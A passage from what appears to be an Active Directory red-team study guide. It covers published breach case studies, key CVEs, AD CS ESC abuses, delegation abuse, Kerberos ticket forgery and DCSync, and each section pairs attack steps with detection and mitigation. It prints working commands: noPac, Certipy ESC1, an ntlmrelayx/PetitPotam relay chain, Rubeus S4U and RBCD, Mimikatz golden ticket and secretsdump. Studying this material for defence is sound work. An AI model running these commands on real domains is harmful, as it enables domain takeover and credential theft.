Case studies differ from attack chains: they describe authorized engagements end to end, including rules of engagement, OPSEC constraints, and detection gaps. Three published engagements illustrate different entry vectors.

### Case study A: The DFIR Report — Egg-Cellent Resume (TA4557/FIN6)

This case is the canonical "OSINT-informed spearphishing" engagement ([source](https://thedfirreport.com/2024/12/02/the-curious-case-of-an-egg-cellent-resume/)). The actor OSINT-researched a real job posting at the target, applied via a job board, and lured the user to a fake resume site (`johnshimkus.com`) hosting a malicious `.lnk` to more_eggs to Cobalt Strike. Mid-intrusion tradecraft: `SharpShares`/`Seatbelt` via `execute-assembly`, Veeam CVE-2023-27532 exploitation for credentials (T1555), LSASS access (T1003.001), Cloudflared tunneling (T1572). Newer cases show dark-web-style infra shifts: EtherRAT uses Ethereum blockchain (EtherHiding) for dynamic C2 config; TukTuk uses Arweave plus Supabase/ClickHouse SaaS as a dead-drop resolver. These blockchain/SaaS dead-drops are the modern evolution of classic dark-web C2 and complicate OSINT takedown.

**Defender lesson:** Job-board lures require preemptive employee-OSINT awareness. Monitor for `execute-assembly`-style in-memory .NET loading, anomalous Veeam DB access, and tunneling tool signatures (Cloudflared, Chisel, ligolo-ng).

### Case study B: CovertSwarm — Human Attack Surface

CovertSwarm argues precision campaigns of 10-30 employees beat bulk phishing, with developers and mid-level staff as the highest-value, lowest-awareness targets ([source](https://www.covertswarm.com/post/inside-a-red-team-osint-human-attack-surface)). Scoping is by online exposure, not job title. Credential reuse patterns from breach data and stealer logs reveal internal naming conventions. Relationship mapping uses team bios, out-of-office replies (which leak manager names, personal numbers, return dates), and public content. Developers leak company code snippets and credentials in personal blog posts; mid-level staff have "high visibility and low awareness." Ethical boundary: HR/termination pretexts only with full client approval; avoid mental-health/protected-data themes.

**Defender lesson:** Out-of-office auto-replies are a free OSINT feed. Strip personal phone numbers and return dates. Monitor code repositories (internal and personal GitHub) for secrets with truffleHog/GitGuardian.

### Case study C: Mandiant UNC5537 / Snowflake

Mandiant's UNC5537 disclosure is the canonical real-world narrative of infostealer-driven SaaS breach, compromising ~165 customer tenants using credentials stolen from contractor/employee endpoints by Lumma, RedLine, RisePro, Vidar, Raccoon, and MetaStealer ([source](https://cloud.google.com/blog/topics/threat-intelligence/unc5537-snowflake-data-theft-extortion)). UNC5537 did NOT exploit a Snowflake product flaw. They used credentials harvested from infostealer-infected personal laptops, some stolen as far back as November 2020 and still valid. 79.7% of leveraged accounts had prior credential exposure. Three enabling factors: no MFA, stale unrotated credentials, no network allow-lists. Recon tool `rapeflake` (FROSTBITE) ran SQL recon; data exfiltrated via `SHOW TABLES` / `COPY INTO` / `GET`. Victims include Ticketmaster (~560M), Santander (~30M), AT&T (~110M). Snowflake subsequently enforced MFA by default.

**Defender lesson:** Infostealer session cookies bypass MFA entirely because the target treats a replayed cookie as a continuation of an already-authenticated session, so push/SMS MFA never fires. Only FIDO2/passkeys/hardware keys bound to a device resist this. Per Flare's 2026 report, 79% of enterprise logs contained Microsoft Entra ID credentials and 1.17M logs had both creds AND session cookies ([source](https://ransomnews.com/stealer-logs-explained-2026/)). Force session revocation and password rotation on any confirmed stealer-log exposure; monitor for impossible-travel sign-ins.

## 29. Public CVEs & Named Vulnerabilities

CVEs are the connective tissue between OSINT (attack-surface discovery) and exploitation. The CISA Known Exploited Vulnerabilities (KEV) catalog is the single best OSINT source for triaging which CVEs are actively producing breach and dark-web data. This section covers the CVEs most relevant to AD/credential attack chains.

### High-impact CVEs in AD-adjacent attack chains

| CVE | Name | CVSS | What it gives an attacker | KEV |
|-----|------|------|---------------------------|-----|
| CVE-2020-1472 | Zerologon | 10.0 | Unauthenticated → Domain Admin via Netlogon all-zero IV; resets DC machine account hash | Yes |
| CVE-2021-1675/34527 | PrintNightmare | 7.8/8.8 | SYSTEM RCE via MS-RPRN `RpcAddPrinterDriverEx` opnum 89; loads attacker DLL as SYSTEM | Yes |
| CVE-2021-42278+42287 | noPac | — | Any domain user → Domain Admin in seconds; sAMAccountName spoofing + KDC PAC confusion | Yes |
| CVE-2021-36942 | PetitPotam | — | MS-EFSRPC coercion of DC NTLM auth → relay to AD CS ESC8 → domain takeover | Yes |
| CVE-2021-44228 | Log4Shell | 10.0 | JNDI RCE; mass exploitation by APTs and ransomware (Conti, Khonsari) | Yes |
| CVE-2021-26855 | ProxyLogon | 9.8 | Exchange SSRF; HAFNIUM/Silk Typhoon mailbox exfil to MEGA | Yes |
| CVE-2021-34473 | ProxyShell | 9.8 | Pre-auth path confusion → unauth Exchange RCE chain | Yes |
| CVE-2023-34362 | MOVEit SQLi | 9.8 | Cl0p mass extortion of 3000+ US orgs via LEMURLOOT web shell | Yes |
| CVE-2023-4966 | Citrix Bleed | 9.4 | NetScaler buffer over-read leaks session tokens; LockBit/Black Basta ransomware | Yes |
| CVE-2024-3400 | PAN-OS GlobalProtect | 10.0 | Unauth root on firewall; UTA0218 ntds.dit/DPAPI exfil | Yes |
| CVE-2024-21762 | FortiOS SSL-VPN | — | Unauth RCE on FortiGate; Qilin ransomware | Yes |

### Zerologon (CVE-2020-1472) — the CRTP staple

Zerologon is an elevation of privilege in the Netlogon Remote Protocol (MS-NRPC). An attacker establishes a vulnerable secure channel using an all-zero AES-CFB8 IV to forge an authentication, then resets the DC machine account password, granting domain admin. NVD CVSS 10.0; Microsoft CNA scored 5.5 (AV:L) — a notable disagreement. Affects Server 2008 R2 SP1 through 2019; Server 2008 SP2 is NOT vulnerable (no AES Secure RPC). Two-phase patch: Aug 11 2020 initial (KB4557222, `FullSecureChannelProtection` registry key); Feb 9 2021 enforcement blocks non-compliant connections. Event IDs 5827-5831 introduced for monitoring. In a CRTP lab, the flow is: reset DC account hash → DCSync → Golden Ticket.

### PrintNightmare (CVE-2021-1675 / CVE-2021-34527)

Print Spooler (`spoolsv.exe`) runs as SYSTEM and is on by default, including on DCs. The root cause is `RpcAddPrinterDriverEx` (opnum 89) loading an attacker-supplied `pConfigFile` DLL from a UNC path as SYSTEM using `APD_INSTALL_WARNED_DRIVER` (0x8000). Beyond patching, harden: `PointAndPrint\RestrictDriverInstallationToAdministrators=1` and disable Spooler on DCs (`Stop-Service -Name Spooler -Force; Set-Service -Name Spooler -StartupType Disabled`). Detection: `PrintService/Operational` Event ID 808/316; `spoolsv.exe` child processes. ATT&CK T1068/T1210/T1547.012.

### noPac (CVE-2021-42278 + CVE-2021-42287)

CVE-2021-42278 lets you rename a machine account to collide with a DC's name without the trailing `$`. CVE-2021-42287 is KDC PAC confusion in S4U2self: when account lookup fails, the KDC appends `$` and resolves to the real DC, issuing a ticket with the DC's PAC. Prereqs: any domain user + `ms-DS-MachineAccountQuota > 0` (default 10) + DC missing Nov 2021 patches (KB5008102, KB5008380, KB5008602). Exploit: `noPac.exe -domain htb.local -user user -pass "Password123!" /dc dc.htb.local /mAccount demo123 /mPassword Password123! /service cifs /ptt`. Detection: Event 4742 (computer account changed) and 4724 (account password reset) for a renamed machine account matching a DC name ([cube0x0/noPac](https://github.com/cube0x0/noPac)).

### Named attack patterns (not single CVEs)

**Cl0p / TA505 / Lace Tempest** reused the same double-extortion playbook across Accellion FTA (CVE-2021-27101-27104, Dec 2020), GoAnywhere MFT (CVE-2023-0669, early 2023), and MOVEit (CVE-2023-34362, May 2023). Each campaign: zero-day → web shell (DEWMODE / LEMURLOOT) → database exfiltration → extortion emails → CL0P-LEAKS `.onion` leak site. Pure data-theft extortion (little/no encryption) is the modern model ([CISA AA23-158A](https://www.cisa.gov/news-events/cybersecurity-advisories/aa23-158a)). A single named group's leak-site posts cluster around specific CVE disclosures, giving defenders a correlative signal.

**SolarWinds SUNBURST** (APT29/SVR) has no clean single CVE in the NVD record; MITRE ATT&CK tracks it as Campaign C0024. Trojanized `SolarWinds.Orion.Core.BusinessLayer.dll` signed by SolarWinds, beacons to `avsvmcloud.com` with DGA + DNS C2 + steganography, then SAML token forgery (T1606.002) and Cobalt Strike BEACON via TEARDROP memory-only dropper. ~18000 affected customers. ATT&CK: T1195.002 (supply chain), T1553.002 (code signing), T1568.002 (DNS DGA), T1606.002 (SAML tokens) ([MITRE C0024](https://attack.mitre.org/campaigns/C0024/)).

**Kerberoasting (T1558.003) has no CVE** — it is a protocol-design weakness: anyone with a TGT can request a TGS for any SPN, and RC4-encrypted (etype 0x17) tickets are offline-crackable. Windows Server 2025 dMSA is Microsoft's structural fix: secret stored only on DC, device-bound, retrieved via TGT (`KERB-DMSA-KEY-PACKAGE`) instead of LDAP `msDS-ManagedPassword`. Akamai's Ouroboros (2026) warns that controlling dMSA permissions can inherit superseded legacy account privileges.

### Defender view

Patch velocity is the primary control. KEV-listed CVEs should be patched within the CISA due date (typically 2-3 weeks). Beyond patching: disable Print Spooler on DCs, set `MachineAccountQuota=0`, enforce SMB signing, enforce LDAP signing + channel binding, enable EPA on AD CS web enrollment, and disable LLMNR/NBT-NS. Detection per CVE is event-driven (4742/4724 for noPac, 808/316 for PrintNightmare, 5827-5831 for Zerologon). For external-appliance CVEs (MOVEit, Citrix Bleed, PAN-OS, FortiOS), monitor Shodan/Censys for your org's exposed instances and correlate CVE disclosure dates with ransomware leak-site spikes via `ransomware.live`.

## 30. Research Case Studies & Talks

Research talks are where new tradecraft debuts before it becomes tooling. This section catalogs the talks and research posts that shaped modern AD/credential attack theory, with the practical takeaway for each.

### Foundational AD research

- **harmj0y — "I Hunt Sys Admins"** ([source](https://blog.harmj0y.net/penetesting/i-hunt-sysadmins/)). Shows how any domain user turns AD itself into a recon sensor without port scanning or admin rights. PowerView `Invoke-UserHunter` runs `Get-NetSession` + `Get-NetLoggedon` against every server and compares to a target user set; `-Stealth` extracts servers from `homeDirectory`/`profilePath`. AD attributes used as recon beacons: `homeDirectory`, `profilePath`, `servicePrincipalName`. Maps to T1087 (Account Discovery), T1018 (Remote System Discovery).

- **ADSecurity.org — SPN Scanning** ([source](https://adsecurity.org/?p=230)). Because `servicePrincipalName` is an indexed AD attribute, queries return in under a second and look like normal Kerberos client activity. A standard AD user can run it across the whole forest via the Global Catalog. Core LDAP filter: `(servicePrincipalName=*sql*)`. Swap the wildcard for `exchange*`, `http`, `ldap`, `nfs`, `wsman`. This is the canonical stealthy service-discovery technique — query the indexed SPN attribute instead of port scanning.

- **SpecterOps/harmj0y — "Not A Security Boundary: Breaking Forest Trusts"** ([source](https://specterops.io/blog/2018/11/28/not-a-security-boundary-breaking-forest-trusts/)). Combines unconstrained delegation on domain controllers, the MS-RPRN printer bug (`RpcRemoteFindFirstPrinterChangeNotification`) to force a foreign DC to authenticate, TGT delegation across forest trusts, and the Authenticated Users SID crossing trusts. Result: a single compromised DC with unconstrained delegation in one forest can compromise an entire trusting foreign forest. Microsoft officially treats forests as a security boundary, but this research empirically breaks that claim. Defensive: disable/uninstall Print Spooler on DCs, monitor Event 4769 for forwarded TGTs.

- **Elad Shamir — "Wagging the Dog" (RBCD)** ([source](https://eladshamir.com/2019/01/28/Wagging-the-Dog.html)). The foundational RBCD abuse reference. Key findings: S4U2Self works on any account with an SPN regardless of `TrustedToAuthForDelegation`; S4U2Proxy for RBCD accepts non-forwardable TGS tickets by design (per MS-SFU); any domain user can abuse `MachineAccountQuota` to create a computer account with an SPN, making RBCD trivial. Detection: LDAP writes to `msDS-ManagedAllowedToActOnBehalfOfOtherIdentity` (Event 5136) and unusual S4U Kerberos traffic (Event 4769).

### AD CS research

- **harmj0y — "Certified Pre-Owned" (Black Hat 2021)**. Enumerated ESC1-ESC8 AD CS misconfigurations. Certify (harmj0y + Lee Chagolla-Christensen) is the offensive toolkit; Certipy (ly4k) is the Python equivalent. Certify 2.0 (Aug 2025, Valdemar Caroe) added ESC9-ESC16. Detection: certificate enrollment Event 4886/4887 on the CA; LSASS access; encryption downgrades; Event 4768/4769/4771 Kerberos anomalies.

### Dark web / OSINT research talks

- **Robin: The Archaeologist of the Dark Web (DEF CON 33, 2025)** — AI-powered dark web OSINT tool that automates multi-engine onion search, scraping, and AI summarization ([source](https://reconvillage.org/reconvillage-2025-defcon-33/talks/robin-the-archaeologist-of-the-dark-web-because-manual-dark-web-osint-is-so-last)).
- **Ambly the Darknet Spider (DEF CON 28, 2020)** — ML/NLP-driven Tor crawler; 86,546 unique onion URLs in 12 hours of prototype run.
- **Pretty Good Pivot (DEF CON 33, 2025)** — PGP key-pair creation habits of dark-net vendors across 700+ profiles and 10 markets become de-anonymization pivots.
- **Beyond the Tip of the Iceberg (RVAsec 15, 2026)** — HUMINT lens on the access economy behind ransomware, with an ALPHV affiliate case study.

### Quantitative dark-web analysis

- **Unit 42 ransomware leak-site retrospectives** ([source](https://unit42.paloaltonetworks.com/unit-42-ransomware-leak-site-data-analysis-all-2023/)). 2023: 3,998 posts (up 49% from 2022); 25 new gangs; LockBit 23%, ALPHV/BlackCat 9.7%, CL0P 9.1%; US 47.6%; July 2023 peak (495 posts) driven by CL0P MOVEit mass exploitation. Key caveat: DLS data undercounts real impact — CL0P claimed 364 orgs but MOVEit hit 2,730+. 2025 Q1: RansomHub most active; median initial demand rose 80% to \$1.5M; fastest 25% of intrusions exfiltrated in ~72 minutes (4x faster than 2024).
- **Mandiant M-Trends 2025** ([source](https://cloud.google.com/blog/topics/threat-intelligence/m-trends-2025)). Stolen credentials became the number-two initial infection vector for the first time (16% of investigations in 2024), driven by infostealers (Lumma, StealC, RedLine, Raccoon, Vidar). Recommends FIDO2 phishing-resistant MFA and limiting browser autofill.
- **CrowdStrike Falcon Intelligence Recon+** ([source](https://www.crowdstrike.com/en-us/blog/falcon-intelligence-recon-and-dark-web/)). Russian Market was the most actionable source, posting hundreds of access-broker ads daily; one actor posted 800,000+ times in 2022. Average price: government access \$6,151, academic \$3,827.

### Defender takeaway

Research talks reveal tradecraft 12-24 months before it appears in tooling. Track the Recon Village (DEF CON), Black Hat Arsenal, SANS OSINT Summit, and hack.lu schedules. The defender corollary: every new "abuse primitive" talk should trigger a detection-rule update. The NSA/CISA/ASD advisory "Detecting and Mitigating Microsoft Active Directory Compromises" (Sept 2024) consolidates 17 attack techniques including Kerberoasting, AS-REP, DCSync, AD CS ESC1-ESC13, and Golden SAML into the current authoritative baseline ([source](https://media.defense.gov/2024/Sep/25/2003553985/-1/-1/0/CTR-DETECTING-AND-MITIGATING-AD-COMPROMISES.PDF)).

## 31. AD CS (Certificate Services) Attacks

Active Directory Certificate Services (AD CS) is Microsoft's PKI implementation. It issues X.509 certificates that authenticate users, computers, and services via PKINIT (Kerberos certificate logon) or Schannel. AD CS is powerful because a certificate is an independent authentication factor: it does not expire with a password reset and is not bound to a single DC. The "Certified Pre-Owned" research (harmj0y, Black Hat 2021) showed that misconfigured certificate templates are a near-instant privilege-escalation path, codified as ESC1 through ESC16.

### Why AD CS matters

A certificate obtained from a vulnerable template lets an attacker authenticate as any user (including Domain Admins) via PKINIT: `certipy auth -pfx administrator.pfx -dc-ip 10.0.0.1` returns the Administrator NT hash. Unlike a Golden Ticket, the certificate survives a `krbtgt` reset and does not require DC replication rights. This makes AD CS one of the highest-impact attack surfaces in a modern domain.

### ESC1-ESC16 quick reference

| ESC | Misconfiguration | Impact | Key prerequisite |
|-----|------------------|--------|------------------|
| ESC1 | Client-auth EKU + SAN Specifies + low-priv enrollment | Auth as arbitrary user via SAN | Any enrolled user |
| ESC2 | Any Purpose / no EKU + enroll rights | Cert usable for any auth | Enrollment rights |
| ESC3 | Template certifies on behalf of another subject | Impersonation | Enrollment rights |
| ESC4 | Low-priv write to template object | Modify template → ESC1 | WriteDacl on template |
| ESC5 | Weak ACLs on PKI objects (CA, OSCP) | Control CA | Weak ACL |
| ESC6 | `EDITF_ATTRIBUTESUBJECTALTNAME2` on CA | Any template → SAN abuse | CA flag set |
| ESC7 | `ManageCA` / `ManageCertificates` rights | Approve certs, edit CA | PettitPetitPotam-like rights |
| ESC8 | NTLM relay to HTTP web enrollment (no EPA) | DC cert → Domain Admin | Coercion + relay |
| ESC9 | `CT_FLAG_NO_SECURITY_EXTENSION` + weak mapping | SID extension bypass | Cert mapping config |
| ESC10 | Weak cert-to-account mapping (SubjectAltName / Subject) | Impersonation | Mapping mode |
| ESC11 | NTLM relay to RPC ICertPassage (no EPA) | Like ESC8 via RPC | Coercion + relay |
| ESC15 | Application Policy injection in V1 templates (EKUwu / CVE-2024-49019) | EKU bypass | V1 template |
| ESC16 | Authoritative restoration of template object | Re-enable disabled vuln | Restore rights |

### ESC1 exploitation (Certipy)

ESC1 requires a template with client-authentication EKU, SAN specification allowed, and low-privilege enrollment rights. Enumerate and exploit:

```bash
# Enumerate vulnerable templates
certipy find -u user@corp.local -p 'Pass!' -dc-ip 10.0.0.1 -enabled -vulnerable -stdout

# Request a cert with a SAN of Administrator
certipy req -u user@corp.local -p 'Pass!' -dc-ip 10.0.0.1 \
  -target CA.CORP.LOCAL -ca CORP-CA -template VulnTemplate \
  -upn Administrator@corp.local

# Authenticate with the cert (returns NT hash)
certipy auth -pfx administrator.pfx -dc-ip 10.0.0.1
```

### ESC8 relay chain (the instant domain-takedown)

ESC8 abuses HTTP web enrollment without Extended Protection for Authentication (EPA). The full chain combines PetitPotam coercion with NTLM relay:

```bash
# Terminal 1: relay to AD CS web enrollment
ntlmrelayx.py -t http://<CA>/certsrv/certfnsh.asp -smb2support --adcs --template DomainController

# Terminal 2: coerce the DC to authenticate to the relay
python3 PetitPotam.py -u user -p pass <attacker_ip> <dc_fqdn>

# Terminal 3: authenticate with the DC cert
certipy auth -pfx dc.pfx -dc-ip <DC>
```

This yields the DC's hash as Administrator. The chain works because the DC's NTLM auth is relayed to the CA's HTTP enrollment endpoint, which issues a certificate for the DC without EPA enforcement. PetitPotam (CVE-2021-36942) coerces the auth via MS-EFSRPC `EfsRpcOpenFileRaw` ([topotam/PetitPotam](https://github.com/topotam/PetitPotam)).

### ESC15 / EKUwu (CVE-2024-49019)

ESC15 abuses Application Policy injection in V1 certificate templates. A V1 template's Application Policy can be set to Any Purpose during enrollment, bypassing the intended EKU restriction. This is tracked as CVE-2024-49019 and covered in Certipy ESC15.

### Defender view

**Detection.** Certificate enrollment events on the CA: Event 4886 (certificate issued) and 4887 (certificate denied). Monitor for enrollment of certificates with SANs specifying privileged accounts, enrollment from non-standard users, and NTLM auth to the CA web enrollment endpoint (`certsrv`). Defender for Identity does not yet have a dedicated AD CS alert, so custom SIEM rules on 4886/4887 are essential. For ESC8, detect MS-EFSRPC traffic to non-DC hosts (PetitPotam) and NTLM relay patterns (Event 4624 type 3 from the DC to an attacker IP).

**Mitigation.** Enable EPA (Extended Protection for Authentication) on all AD CS web enrollment endpoints. Disable HTTP enrollment if unused; require HTTPS with channel binding. Remove `EDITF_ATTRIBUTESUBJECTALTNAME2` from the CA (ESC6). Set `MachineAccountQuota=0` to block computer-account creation for RBCD-adjacent abuse. Audit template ACLs: only authorized groups should have enrollment rights; remove `Authenticated Users` enroll rights on sensitive templates. Enforce certificate-based authentication only for templates with a client-authentication EKU and no SAN specification. Patch CVE-2021-36942 (PetitPotam) and CVE-2024-49019 (EKUwu). The NSA AD advisory lists AD CS CA servers as Tier 0 assets — treat them like DCs.

## 32. Delegation Abuse (Unconstrained / Constrained / RBCD)

Kerberos delegation lets a service impersonate a user to access another service on their behalf. It is designed for multi-tier applications (e.g., a web server accessing a SQL backend as the calling user). Attackers abuse it to impersonate privileged users and pivot to any service they can target. There are three delegation models, each with a distinct abuse path.

### The three delegation types

| Type | Config attribute | What it allows | Abuse primitive |
|------|------------------|----------------|-----------------|
| Unconstrained | `TRUSTED_FOR_DELEGATION` UAC on account | Service gets the user's full TGT; can auth as the user to ANY service | Capture TGT from any user who authenticates to the service |
| Constrained | `msDS-AllowedToDelegateTo` | Service impersonates user to SPECIFIC SPNs only, via S4U2Self + S4U2Proxy | S4U2Self + S4U2Proxy with `Rubeus s4u` if `TrustedToAuthForDelegation` set |
| RBCD (Resource-Based) | `msDS-ManagedAllowedToActOnBehalfOfOtherIdentity` on target | A specified principal can impersonate any user to the target | Any domain user creates a computer acct, adds it to target's RBCD, impersonates admin |

### Unconstrained delegation

When a user authenticates to a service configured for unconstrained delegation, the DC sends the user's TGT inside the service ticket. The service caches that TGT in LSASS and can reuse it to authenticate as the user to any service. DCs themselves have unconstrained delegation by default — this is why a compromised DC can compromise a trusting forest (SpecterOps "Not A Security Boundary").

**Attack.** Find unconstrained-delegation hosts: `Get-DomainComputer -UnconstrainedDelegation` (PowerView) or BloodHound query. Force a privileged user to authenticate to the host: the MS-RPRN printer bug (`RpcRemoteFindFirstPrinterChangeNotification`) coerces a DC to auth, caching its TGT. Or wait for a Domain Admin to log in. Then dump the TGT from LSASS (`sekurlsa::tickets` in Mimikatz) and replay it.

**Detection.** Event 4768/4769 TGT requests from foreign principals (cross-domain). Event 4624 type 3 from a DC computer account to an unconstrained-delegation host. Monitor LSASS for cached TGTs of privileged users on non-DC hosts.

**Mitigation.** Mark privileged accounts as `AccountNotDelegated` (`Set-ADAccountControl -AccountNotDelegated:$true`). Remove unconstrained delegation from DCs where possible. Enable Credential Guard to prevent TGT extraction from LSASS.

### Constrained delegation

Constrained delegation restricts the target SPNs a service can impersonate to (`msDS-AllowedToDelegateTo`). It uses S4U2Self (service gets a ticket to itself on behalf of a user) and S4U2Proxy (service uses that ticket to access a configured target). The account must have `TrustedToAuthForDelegation` set (protocol transition) to use S4U2Self for any user — not just users who have already authenticated to the service.

**Attack (Rubeus).** If you control an account with `TrustedToAuthForDelegation` and a configured SPN target:

```powershell
# Impersonate dfm.a to access CIFS on the target via S4U2Self + S4U2Proxy
Rubeus.exe s4u /user:patsy /rc4:2b576acbe6bcfda7294d6bd18041b8fe `
  /impersonateuser:dfm.a /msdsspn:"ldap/PRIMARY.testlab.local" /altservice:cifs /ptt
```

The `/altservice` flag substitutes the service type (e.g., `ldap` → `cifs`), expanding access within the same SPN target ([GhostPack/Rubeus](https://github.com/GhostPack/Rubeus)).

**Detection.** Event 4769 with service tickets to the configured SPNs, especially for impersonated users who did not recently authenticate. Anomalous S4U Kerberos traffic volume.

**Mitigation.** Prefer RBCD over constrained delegation where possible. Remove `TrustedToAuthForDelegation` (protocol transition) unless strictly required. Audit `msDS-AllowedToDelegateTo` for overly broad targets.

### Resource-Based Constrained Delegation (RBCD)

RBCD inverts the trust direction: instead of configuring the *impersonating* service, you configure the *target* resource to trust a specific impersonator. The attribute `msDS-ManagedAllowedToActOnBehalfOfOtherIdentity` on the target object lists who can impersonate any user to it. Per Elad Shamir's "Wagging the Dog" ([source](https://eladshamir.com/2019/01/28/Wagging-the-Dog.html)), any domain user can abuse `MachineAccountQuota` (default 10) to create a computer account with an SPN, then write that account's SID into the target's RBCD attribute — provided the user has `WriteProperty`/`GenericWrite`/`GenericAll` on the target (common via ACL abuse or LAPS-write rights). S4U2Proxy for RBCD accepts non-forwardable TGS tickets by design (MS-SFU), so no `TrustedToAuthForDelegation` needed.

**Attack chain.**

```powershell
# 1. Create a new computer account (any domain user, MachineAccountQuota)
Rubeus.exe hash /password:Summer2026!    # get NT hash for the new acct
# Or: New-MachineAccount -MachineAccount EVILPC -Password $(ConvertTo-SecureString ...)

# 2. Set RBCD on the target (needs GenericWrite/WriteProperty on target)
# Via PowerView or LDAP write to msDS-ManagedAllowedToActOnBehalfOfOtherIdentity
# Value = DACL allowing the new computer account's SID

# 3. S4U impersonation of Administrator to the target
Rubeus.exe s4u /user:EVILPC$ /rc4:<hash> /impersonateuser:Administrator /msdsspn:cifs/TARGET$ /ptt
```

A common relay variant uses NTLM relay to LDAP: coerce a privileged user's auth (PetitPotam, printer bug) to an attacker's `ntlmrelayx` with `--delegate-access`, which writes the attacker-controlled computer account's SID into the target's RBCD attribute — no prior ACL rights needed on the target.

**Detection.** Event 5136 (directory-service object modification) for writes to `msDS-ManagedAllowedToActOnBehalfOfOtherIdentity`. Event 4741 (computer account creation) for unexpected machine accounts. Event 4769 S4U tickets to added SPNs. Alert on any RBCD attribute write not from an approved change-control source.

**Mitigation.** Set `MachineAccountQuota=0` to block arbitrary computer-account creation (the single most effective control). Audit ACLs on computer objects for `GenericWrite`/`WriteProperty` granted to broad groups. Monitor Event 5136 for RBCD writes. Require LDAP signing + channel binding to block NTLM relay to LDAP. Mark high-value targets `AccountNotDelegated`.

### CRTP relevance

Delegation abuse is a core CRTP objective. The exam expects you to: enumerate delegation via PowerView/BloodHound; identify unconstrained-delegation hosts and DCs; abuse constrained delegation with `Rubeus s4u` and `/altservice`; and execute the RBCD chain (create computer account, set the attribute, impersonate). The "Wagging the Dog" post is required reading.## 33. Kerberos Ticket Attacks (Golden / Silver / Diamond / Sapphire)

Kerberos ticket forgery is the crown jewel of AD persistence. Once you hold the `krbtgt` hash (or a service-account key), you can mint tickets that grant arbitrary access without touching the DC again. MITRE maps these to **T1558.001 (Golden)**, **T1558.002 (Silver)**, and related sub-techniques under *Use Alternate Authentication Material* ([T1558](https://attack.mitre.org/techniques/T1558/)).

**Golden Ticket.** A TGT forged offline using the `krbtgt` NT/AES key. The KDC never verifies the `krbtgt` password on TGS exchange — it trusts whatever the TGT PAC says. Forge with Mimikatz or Rubeus:

```bash
# Mimikatz
kerberos::golden /user:FakeAdmin /domain:corp.local /sid:S-1-5-21-... /krbtgt:<HASH> /ptt
# Rubeus diamond variant (uses tgtdeleg to avoid LSASS touch)
Rubeus.exe diamond /krbkey:3111b43b... /tgtdeleg /ticketuser:thor /ticketuserid:1104 /groups:512
```

Lifetime defaults to 10 years in Mimikatz ([RedFoxSec walkthrough](https://www.redfoxsec.com/blog/real-world-red-team-attack-chains-how-attackers-chain-vulnerabilities-to-compromise-entire-organizations)). Any domain user is valid; group membership (512 = Domain Admins) is attacker-chosen.

**Silver Ticket.** A TGS forged with a service account's NTLM key (e.g., a cracked Kerberoast hash). Targets one SPN — `cifs/DC01` gives file access, `ldap/DC01` gives LDAP. No DC round-trip, so it is invisible to DC-side Kerberos event logs.

**Diamond Ticket** (Rubeus) rewrites a legitimate TGT's PAC using `tgtdeleg` — the TGT comes from a real AS-REQ, so encryption type and request patterns look normal. **Sapphire Ticket** extends this with `S4U2Self+U2U` to bake arbitrary user/group SIDs into a valid PAC. Both evade naive "no matching 4768" detection because a real TGT request did occur ([GhostPack/Rubeus](https://github.com/GhostPack/Rubeus)).

**Defender view.** Defender for Identity alert **2013 (Golden Ticket)** watches 4768/4769 for forged auth data; **2410 (Kerberoasting)** flags RC4-HMAC etype `0x17` as a downgrade/forgery indicator ([ATADocs credential-access alerts](https://github.com/MicrosoftDocs/ATADocs/blob/main/ATPDocs/credential-access-alerts.md)). Anomalous ticket lifetimes, RC4 in AES-only domains, and TGS requests for SPNs from non-expected principals are the primary signals. The corrective control after `krbtgt` compromise is a **double password reset ≥10 hours apart** to invalidate outstanding TGTs ([forest recovery guide](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/forest-recovery-guide/ad-forest-recovery-reset-the-krbtgt-password)); the NSA/CISA advisory recommends doing this every 12 months ([NSA AD report](https://media.defense.gov/2024/Sep/25/2003553985/-1/-1/0/CTR-DETECTING-AND-MITIGATING-AD-COMPROMISES.PDF)).

| Ticket  | Key needed        | Scope         | DC contact | Key detection signal         |
|---------|-------------------|---------------|------------|------------------------------|
| Golden  | krbtgt hash       | Whole domain  | No         | 4768 w/ odd etype/lifetime   |
| Silver  | service NTLM/AES  | One SPN       | No         | No 4768/4769 at DC for SPN   |
| Diamond | krbtgt + valid TGT| Whole domain  | Yes (AS-REQ)| Looks like normal AS-REQ    |
| Sapphire| krbtgt + S4U     | Whole domain  | Yes        | S4U2Self+U2U pattern in 4769 |

## 34. DCSync & DCShadow

**DCSync** (T1003.006) is not a memory dump — it abuses the AD replication protocol **MS-DRSR** (`IDL_DRSGetNCChanges` on the `drsuapi` RPC interface) to ask a DC for password hashes exactly as another DC would during replication. The server-side check `IsGetNCChangesPermissionGranted` requires the control-access rights **DS-Replication-Get-Changes** and **DS-Replication-Get-Changes-All** — normally held only by DCs, Domain Admins, and Enterprise Admins ([MS-DRSR spec](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/b5fc7747-3020-418c-bdb3-6c9f78cc8315)). Any account that acquires those rights via ACL abuse (or a compromised DA) becomes a "fake DC."

```bash
# Mimikatz - pull every hash
lsadump::dcsync /domain:corp.local /all /csv
# Impacket - single user, no agent on the DC
secretsdump.py corp.local/user:pass@DC_IP -just-dc-user krbtgt
```

The kill-chain payoff is immediate: dump `krbtgt`, forge a Golden Ticket, own the forest. DCSync needs no code on the DC and no LSASS access, so LSASS-protective controls (Credential Guard, ASR LSASS rule [9e6c4e1f-7d60-472f-ba1a-a39ef669e4b2](https://learn.microsoft.com/en-us/defender-endpoint/attack-surface-reduction-rules-reference)) do **not** stop it.

**DCShadow** goes further: it temporarily registers an attacker-controlled machine as a DC (via SPN injection + `DS-Replication-Get-Changes` rights), pushes arbitrary attribute changes (e.g., set `msDS-AllowedToActOnBehalfOfOtherIdentity` for RBCD, or modify a user's `member` attribute) into the real DC's database, then un-registers. The change replicates outward and persists with no Group Policy or 5136 audit on the *legitimate* DCs if you clean up the registration records. It is the stealthiest AD persistence primitive, but requires DA-equivalent rights to set up.

**Defender view.** Event **4662** (Directory Service Access) with access mask `0x113f` (replication) from a **non-DC** account is the canonical DCSync signal — Defender for Identity alert **2006** keys on this ([ATADocs](https://github.com/MicrosoftDocs/ATADocs/blob/main/ATPDocs/credential-access-alerts.md)). The Secure Score assessment *"Remove non-admin accounts with DCSync permissions"* hunts the precondition. For DCShadow, watch 4662 for a machine account claiming DC replication rights that was not recently promoted, plus unexpected `fSMORoleOwner`/SPN changes. Mitigation: tiered admin (Tier 0 isolation), audit ACLs on the domain head for `DS-Replication-Get-Changes-All`, and gMSA/dMSA for service accounts so no crackable hash exists to pull.

## 35. Cross-Trust & Forest Attacks
